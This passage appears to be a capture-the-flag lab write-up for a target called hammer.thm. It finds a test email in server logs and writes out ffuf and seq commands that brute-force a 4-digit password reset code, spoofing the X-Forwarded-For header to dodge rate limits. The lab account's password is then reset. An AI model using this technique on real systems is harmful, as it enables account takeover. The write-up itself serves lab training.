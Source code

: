 ```ad-note
[Mon Aug 19 12:07:29.321098 2024] [core:error] [pid 12352:tid 139999999999992] [client 192.168.1.35:42310] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
`

# Important Part:
---

Important part about the log would be the following email:

`tester@hammer.thm`


```

# EXPLOITATION
---

Now, here the exploitation part begins, let's try to reset the password for the email we found in the log:



![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118171025.png)

Once we send the request, this appears:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118171056.png)

We have a time of `180` seconds to enter the code, we can try to brute force it in the following way:

```ad-hint

# Steps to reproduce in order to get the code
----

1. Generating the sequence from 0000 to 9999 since we have a 4 digit code:
   `seq 0000 9999 >> codes.txt` 
2. Preparing our payload using `ffuf` in the following way (We need the PHPSESSID that we found previously):
	`ffuf -w codes.txt -u "http://hammer.thm:1337/reset_password.php" -X "POST" -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=Cookie-ID" -H "X-Forwarded-For: FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s`

Breakdown of the code is available in the other note section.

3. Resetting the password.

# PoC
---

1. ![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118171640.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118171659.png)

2.  ![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118172644.png)
3. ![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118172701.png)

I resetted the pasword to 1234:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241118172737.png)
```